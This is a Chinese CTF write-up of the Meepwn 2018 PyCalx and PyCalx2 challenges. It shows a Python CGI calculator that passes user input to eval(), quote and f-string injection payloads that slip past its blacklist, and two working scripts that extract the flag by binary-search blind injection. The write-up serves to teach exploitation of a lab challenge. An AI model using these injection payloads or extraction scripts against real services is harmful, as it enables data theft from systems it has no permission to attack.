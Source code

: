 ```yaml
---
mathjax: true
title: Meepwn2018：PyCalx&PyCalx2——Python3的f-string与eval注入
date: 2018-07-19 09:10:50
---
```


**本文首发 [先知社区](https://xz.aliyun.com/t/2446) ，转载请注明链接。** 

# PyCalx

> This code is supposed to be unexploitable :/ another pyjail?
> [[Source\]](http://178.128.96.203/cgi-bin/server.py?source=1) 
> [Try this ](http://178.128.96.203/cgi-bin/server.py?value1=123&op=%3D%3D&value2=123)or [this](http://178.128.96.203/cgi-bin/server.py?value1=abc&op=%3D%3D&value2=abc) 
> Notice: The flag may contain non alphabetic characters (but still printable)

本题由Python的 `eval()` 函数参数可控且直接拼接引发的注入，采用二分法盲注。

server.py源码如下：

```python
#!/usr/bin/env python
import cgi
import sys
from html import escape

FLAG = open('/var/www/flag', 'r').read()
OK_200 = "some HTML code"
print(OK_200)
arguments = cgi.FieldStorage()

if 'source' in arguments:
    source = arguments['source'].value
else:
    source = 0

if source == '1':
    print('<pre>' + escape(str(open(__file__, 'r').read())) + '</pre>')

if 'value1' in arguments and 'value2' in arguments and 'op' in arguments:

    def get_value(val):
        val = str(val)[:64]
        if str(val).isdigit(): return int(val)
        blacklist = ['(', ')', '[', ']', '\'',
                     '"']  # I don't like tuple, list and dict.
        if val == '' or [c for c in blacklist if c in val] != []:
            print('<center>Invalid value</center>')
            sys.exit(0)
        return val

    def get_op(val):
        val = str(val)[:2]
        list_ops = ['+', '-', '/', '*', '=', '!']
        if val == '' or val[0] not in list_ops:
            print('<center>Invalid op</center>')
            sys.exit(0)
        return val

    op = get_op(arguments['op'].value)
    value1 = get_value(arguments['value1'].value)
    value2 = get_value(arguments['value2'].value)
    if str(value1).isdigit() ^ str(value2).isdigit():
        print('<center>Types of the values don\'t match</center>')
        sys.exit(0)
    calc_eval = str(repr(value1)) + str(op) + str(repr(value2))
    print(
        '<div class=container><div class=row><div class=col-md-2></div><div class="col-md-8"><pre>'
    )
    print('>>>> print(' + escape(calc_eval) + ')')
    try:
        result = str(eval(calc_eval))
        if result.isdigit() or result == 'True' or result == 'False':
            print(result)
        else:
            print(
                "Invalid"
            )  # Sorry we don't support output as a string due to security issue.
    except:
        print("Invalid")
    print('>>> </pre></div></div></div>')
```

大意如下：

- cgi会处理source，value1，value2，op四个参数。
- 如果source=1则打印源代码。
- value1，value2，op三个参数都有值时进一步处理。
  - value1，value2至少1个字符，至多64个，且不包含黑名单`()[]'"` 里的字符。
  - op至少1个字符，至多2个，且首字符必须在白名单`+-*/=!` 里。
  - value1,value2要么都是只包含`[0-9]`，要么都包含其他字符。
  - 执行`str(eval(str(repr(value1)) + str(op) + str(repr(value2))))` ，且只有结果是bool值或只包含`[0-9]` 时才会输出。
    - 注：repr返回对象的可打印形式，和反引号包裹效果一致，对大多数类型，他会返有一个字符串，使其可以作为代码直接传入eval执行。

解题思路：`op` 允许两个字符，且第二个字符是任意的，那么如果是一个单引号，就能混淆代码和数据，起到类似SQL注入的效果。

```python
>>> print(str(repr("a"))+str("+")+str(repr("b")))
'a'+'b'
>>> print(str(repr("a"))+str("+'")+str(repr("< b#")))
'a'+''< b#'
```

解题脚本：

```python
import requests, re


def calc(v1, v2, op, s):
    u = "http://178.128.96.203/cgi-bin/server.py?"
    payload = dict(value1=v1, value2=v2, op=op, source=s)
    # print payload
    r = requests.get(u, params=payload)
    # print r.url
    res = re.findall("<pre>\n>>>>([\s\S]*)\n>>> <\/pre>",
                     r.content)[0].split('\n')[1]
    assert (res != 'Invalid')
    return res == 'True'
    # print r.content


def check(mid):
    s = flag + chr(mid)
    return calc(v1, v2, op, s)


def bin_search(seq=xrange(0x20, 0x80), lo=0, hi=None):
    assert (lo >= 0)
    if hi == None: hi = len(seq)
    while lo < hi:
        mid = (lo + hi) // 2
        # print lo, mid, hi, "\t",
        if check(seq[mid]): hi = mid
        else: lo = mid + 1
    return seq[lo]


flag = ''
v1, v2, op, s = 'x', "+FLAG<value1+source#", "+'", ''

while (1):
    flag += chr(bin_search() - 1)
    print flag
# MeePwnCTF{python3.66666666666666_([_((you_passed_this?]]]]]])}
```

![1531905259492](1531905259492.png)



# PyCalx2 

> You should solve `PyCalx` first. 
>
> http://206.189.223.3/cgi-bin/server.py?source=1  

`server.py` 只改动了一行代码，将`    op = get_op(arguments['op'].value)` 变成了 `op = get_op(get_value(arguments['op'].value))`  ，也就是说将`op` 参数也进行了黑名单过滤，于是 `op` 的第二个字符就不能是单引号，第一题的方法也就失效了。

结合题目提示和第一题的flag去寻找Python3.6的新特性，用到了这个 ` f-string  ` ，详见[PEP 498 -- Literal String Interpolation](https://www.python.org/dev/peps/pep-0498/) 。简言之就是可以在字符串中方便地直接插入表达式，以`f` 开头，表达式插在大括号`{}` 里，在运行时表达式会被计算并替换成对应的值。

本题主要是利用这个特性在字符串里插入比较的表达式，剩下的就和上题一样了。插法不尽相同，CTF Time上的WP里有这么两种，相信还可以有其他的方法：

```python
>>> str(repr('T'))+str('+f')+str(repr('ru{FLAG<source or 14:x}')) # 14的十六进制表示时'e'
"'T'+f'ru{FLAG<source or 14:x}'"
>>> eval(str(repr('T'))+str('+f')+str(repr('ru{1 or 14:x}')))
'Tru1' # 返回Invalid
>>> eval(str(repr('T'))+str('+f')+str(repr('ru{0 or 14:x}')))
'True'
```

```python
>>> str(repr('Tru'))+str('+f')+str(repr('{sys.exit.__name__:{FLAG<source:1}.1}'))
"'Tru'+f'{sys.exit.__name__:{FLAG<source:1}.1}'"
# {FLAG<source:1}的值相当于printf("%1f",FLAG<source)的结果，有0和1两种可能。
#这边sys.exit.__name__等价于字符串'exit'，考虑到已经import escape，直接用escape.__name__也可。
>>> eval(str(repr('Tru'))+str('+f')+str(repr('{sys.exit.__name__:{1:1}.1}')))
'True'
>>> eval(str(repr('Tru'))+str('+f')+str(repr('{sys.exit.__name__:{0:1}.1}')))
#报错，返回Invalid
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "<string>", line 1, in <module>
ValueError: '=' alignment not allowed in string format specifier
>>>
```

解题脚本：

```python
import requests, re


def calc(v1, v2, op, s):
    u = "http://206.189.223.3/cgi-bin/server.py?"
    payload = dict(value1=v1, value2=v2, op=op, source=s)
    r = requests.get(u, params=payload)
    res = re.findall("<pre>\n>>>>([\s\S]*)\n>>> <\/pre>",
                     r.content)[0].split('\n')[1]
    return res == 'Invalid'


def check(mid):
    s = flag + chr(mid)
    return calc(v1, v2, op, s)


def bin_search(seq=xrange(0x20, 0x80), lo=0, hi=None):
    assert (lo >= 0)
    if hi == None: hi = len(seq)
    while lo < hi:
        mid = (lo + hi) // 2
        if check(seq[mid]): hi = mid
        else: lo = mid + 1
    return seq[lo]


flag = ''
v1, op, v2, s = 'T', "+f", "ru{FLAG<source or 14:x}", 'a'

while (1):
    flag += chr(bin_search() - 1)
    print flag
# MeePwnCTF{python3.6[_strikes_backkkkkkkkkkkk)}
```



![1531905207979](1531905207979.png)